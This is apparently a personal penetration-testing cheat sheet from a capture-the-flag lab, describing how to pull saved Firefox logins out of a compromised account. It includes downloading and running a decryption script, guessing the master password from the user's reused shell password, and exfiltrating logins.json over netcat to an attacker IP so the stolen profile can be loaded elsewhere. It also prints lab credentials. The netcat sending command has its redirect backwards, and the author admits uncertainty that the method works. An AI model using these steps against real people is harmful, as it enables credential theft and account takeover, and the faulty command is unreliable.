

# Firefox
## Find saved passwords in .mozilla
.mozilla is in the home directory and contains
logins.json and
key.db.
logins.json contains encrypted logins
key4.db contains encrypted keys:
https://support.mozilla.org/en-US/questions/1181061### firefox_decrypt.py
https://github.com/unode/firefox_decrypt This script can decrypt
logins.json and
key4.db providing we know the master password
(try using the user's shell login as their master password, they might be dumb and have reused their password).
firefox_decrypt.py wants a profile, so change directory into the .mozilla directory.
The
.default files are the profiles.
wget https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.pyayush@chaos:~/.mozilla/firefox$ python3 firefox_decrypt.py
Master Password for profile /home/ayush/.mozilla/firefox/bzo7sjt1.default: jiujitsu
Website: https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
### Don't know master password?
I don't know whether this works reliably.
Copy the
logins.json and
key.db files to your local machine,
and overwrite your own copies of those files in your firefox profile with the versions you've just stolen.
root@kali:~# nc -lvnp 5556 > logins.json
ayush@chaos:~/.mozilla/firefox/bzo7sjt1.default$ nc 10.10.13.44 5556 > logins.jsonNow if you check the
Saved Logins in Firefox on your attacking machine after replacing the
logins.json file (and
key.db?), you should see another other user's saved logins (not yours).
